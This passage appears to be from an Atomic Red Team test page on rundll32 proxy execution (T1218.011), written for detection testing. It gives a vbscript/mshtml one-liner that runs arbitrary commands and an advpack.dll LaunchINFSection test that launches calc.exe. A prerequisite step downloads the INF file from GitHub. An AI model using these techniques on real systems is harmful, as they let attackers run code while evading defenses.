 
#### Attack Commands: Run with `command_prompt`! 


```cmd
rundll32 vbscript:"\..\mshtml,#135 "+String(CreateObject("WScript.Shell").Run("#{command_to_execute}"),0)
```






<br/>
<br/>

## Atomic Test #4 - Rundll32 advpack.dll Execution
Test execution of a command using rundll32.exe with advpack.dll.
Reference: https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/OSLibraries/Advpack.yml
Upon execution calc.exe will be launched

**Supported Platforms:** Windows


**auto_generated_guid:** d91cae26-7fc1-457b-a854-34c8aad48c89





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| inf_to_execute | Local location of inf file | String | PathToAtomicsFolder&#92;T1218.011&#92;src&#92;T1218.011.inf|


#### Attack Commands: Run with `command_prompt`! 


```cmd
rundll32.exe advpack.dll,LaunchINFSection #{inf_to_execute},DefaultInstall_SingleUser,1,
```




#### Dependencies:  Run with `powershell`!
##### Description: Inf file must exist on disk at specified location (#{inf_to_execute})
##### Check Prereq Commands:
```powershell
if (Test-Path #{inf_to_execute}) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path #{inf_to_execute}) -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1218.011/src/T1218.011.inf" -OutFile "#{inf_to_execute}"
```
